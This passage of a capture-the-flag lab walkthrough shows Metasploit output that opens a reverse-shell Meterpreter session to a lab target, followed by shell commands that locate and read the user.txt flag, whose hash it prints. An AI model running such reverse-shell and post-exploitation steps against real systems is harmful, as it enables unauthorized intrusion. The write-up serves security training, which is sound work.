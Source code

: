 `> check`

```bash
[+] 10.129.42.249 - The target is vulnerable.
```
Perfect! Our machine seems to be vulnerable

Keep in mind that not all metasploit modules support the ``check`` feature , but it is always a nice thing to have.

Now that we are all set, let's hit the big red button by typing

``> run``

```bash
[*] Started reverse TCP handler on 10.10.14.115:4444 
[*] Sending stage (39860 bytes) to 10.129.42.249
[*] Meterpreter session 1 opened (10.10.14.115:4444 -> 10.129.42.249:53132) at 2022-06-10 17:52:12 -0700

meterpreter > 
```
Great, we now have a meterpreter shell on the machine and can execute commands.

Let's move on to our post exploitation procedure.
## Post Exploitation - Finding the user.txt flag
After gaining a foothold, we are asked to find and submit the contents of **user.txt** as a flag.

Now that we have a meterpreter shell in the machine, lets type the following command to drop into a system command shell.

`> shell`

After this, to make our lives easier we can simply run a command to search for the user.txt file instead of having to look for it to manually by navigating through the system directories. 

```bash
> find / -iname user.txt 2>/dev/null
/home/mrb3n/user.txt
```

Now we navigate to the given file by `cd /home/mrb3n` . Running `ls` confirms that our file is indeed in the direcotry , so we proceed by opening it.

```bash
cd /home/mrb3n                                                                                                                                        
ls                                                                                                                                                    
user.txt                                                                                                                                              
cat user.txt                                                                                                                                          
7002d65b149b0a4d19132a66feed21d8
```
And there is our first flag. ==7002d65b149b0a4d19132a66feed21d8== are the contents of the **user.txt** file.
